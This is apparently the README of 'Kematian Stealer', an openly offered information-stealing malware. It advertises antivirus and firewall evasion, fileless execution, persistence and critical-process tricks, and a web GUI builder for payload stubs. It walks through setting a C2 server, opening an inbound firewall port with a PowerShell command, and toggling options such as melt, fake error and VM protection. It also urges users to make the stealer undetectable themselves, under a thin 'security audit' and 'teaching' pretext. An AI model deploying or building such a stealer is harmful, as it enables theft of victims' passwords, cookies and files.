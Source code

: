 This tool is particularly advantageous for accessing application and file data without restrictions, while evading conventional security measures such as `firewalls` and `antivirus` software, thanks to its `fileless capabilities`, which set it apart from other stealers. Upon execution, Kematian Stealer creates a `mutex` on the system and designates the process as `critical` before initiating data exfiltration, ensuring smooth and uninterrupted transmission of data.

Moreover, the tool has robust `persistence mechanisms` to remain active on the machine after reboot. Additionally, its user-friendly web-based `GUI builder` simplifies the process of creating payloads, enhancing its accessibility and usability.
<br>

# Use Cases

- **Security Audits**: For ethical hackers or system administrators to test the security and data exposure of local systems.
- **Data Recovery**: Assists in recovering lost passwords, cookies and other crucial data for legitimate purposes.

> [!TIP]
> Please refrain from opening issues related to detections, as it is pointless. This project's objective is to facilitate teaching and learning. If you need a FUD stealer, simply create one or REFUD it yourself. 

# Usage
## Setup Instructions And Video Guide Below 
<a href="https://devs.sped.lol/kematian-stealer"><img src="https://img.shields.io/badge/GitBook-6A6965?style=for-the-badge&logo=gitbook&logoColor=white"></a>
<a href="https://youtu.be/k-vastcKfwY"><img src="https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white"></a>
- Download [Builder](https://github.com/Pirate-Devs/Kematian/releases/download/AutoBuild/main.exe) from the releases.
- The builder will automatically generate your `private key` and `certificate` at first run, you can find them here `$env:appdata\Kematian-Stealer`
- After opening the builder, it will also start a local server which will run on `https://127.0.0.1:8080` by default.
- Open your web browser and go to `https://127.0.0.1:8080/builder`
- Input your C2 server in the `TCP TUNNEL URL:PORT` section
- Open the port in `Windows Firewall` for receiving logs 
```ps1
New-NetFirewallRule -DisplayName "KematianC2" -Direction Inbound -Protocol TCP -LocalPort 8080 -Action Allow
```
- Next, activate the checkboxes for the features you want to include in the stub.
- Finally hit build and the output stub will be placed in the same folder with the builder
- Your logs will be saved here : `$env:appdata\Kematian-Stealer\logs`
 
 > [!NOTE]   
 > **THE DEBUG OPTION IS FOR TESTING PURPOSES ONLY**

### Configurations
```ps1
$c2_server = "YOUR_URL_HERE_SERVER" 
$debug = $false
$blockhostsfile = $false
$criticalprocess = $false
$melt = $false
$fakeerror = $false
$persistence = $false
$write_disk_only = $false
$vm_protect = $false
$encryption_key = "YOUR_ENC_KEY_HERE"
```
